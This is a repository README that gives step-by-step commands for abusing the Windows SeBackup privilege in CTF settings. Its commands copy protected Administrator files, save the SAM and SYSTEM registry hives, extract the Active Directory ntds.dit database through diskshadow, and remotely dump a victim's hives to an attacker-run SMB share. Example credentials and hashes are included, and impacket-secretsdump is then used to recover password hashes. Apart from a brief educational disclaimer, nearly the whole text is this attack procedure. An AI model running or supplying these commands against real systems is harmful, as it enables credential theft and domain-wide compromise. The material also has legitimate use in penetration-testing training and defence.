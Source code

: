 # SeBackup-Privilege Abuse

This repository contains a script and instructions to demonstrate the abuse of the SeBackup privilege in Windows environments. The SeBackup privilege allows a user to bypass file permissions and copy files, which can be leveraged to retrieve sensitive information.

## Description

The provided script demonstrates how to:

1. Retrieve files from the Administrator's Desktop (directly get the root flag for CTF's).
2. Copying SAM and SYSTEM files for dumping local hashes.
3. Generating the ntds.dit file, which contains the Active Directory database, for dumping domain hashes.
4. Exploiting the SeBackup-Privilege remotely from local machine.

## Usage
### Prerequisites
SeBackupPrivilege enabled for the user executing the script.

## Steps and Methods to Exploit the Privilege Locally
### ---> Retrieve files from the Administrator's Desktop (directly get the root flag for CTF's)

Use the robocopy command with the /b switch to bypass file permissions and copy files from the Administrator's Desktop.

`robocopy /b C:\Users\Administrator\Desktop\ C:\`

### ---> Copying SAM and SYSTEM files for dumping local hashes
Use the reg command to save the SAM and SYSTEM file in PWD.

`reg save hklm\sam sam` <br />
`reg save hklm\system system`

### ---> Generating the ntds.dit file, which contains the Active Directory database, for dumping domain hashes

Download and move the `script.txt` file on the Windows machine:

Execute the Diskshadow utility with the prepared script and Use robocopy again to copy the ntds.dit file to PWD:

`diskshadow /s script.txt` <br />
`robocopy /b E:\Windows\ntds . ntds.dit`

 <br />
 
## Steps to Exploit the Privilege Remotely

* Clone this Python script into your local machine:

`git clone https://github.com/horizon3ai/backup_dc_registry`

* Before running the script, start an SMB server in our local machine:

`impacket-smbserver test . -smb2support`

* Run the script with password or hashes using the following command:

`python3 reg.py username:password@victim_ip backup -p '\\your_local_ip\test'` <br />
`python3 reg.py username@victim_ip -hashes aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d backup -p '\\your_local_ip\test'`

Example:

`python3 reg.py jsmith:'Spring2021'@10.0.229.1 backup -p '\\10.0.220.51\share'` <br />
`python3 reg.py svc_backup@10.10.10.192 -hashes aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d backup -p '\\10.10.14.2\test'`

* Dump the credentials using `impacket-secretsdump`:

`impacket-secretsdump LOCAL -system share/SYSTEM -security test/SECURITY -sam test/SAM`

## Disclaimer

This script is provided for educational purposes only. Unauthorized access to computer systems is illegal and unethical. Use this script only on systems you own or have explicit permission to test.

## Contributing

If you have any improvements or suggestions, feel free to submit a pull request or open an issue.

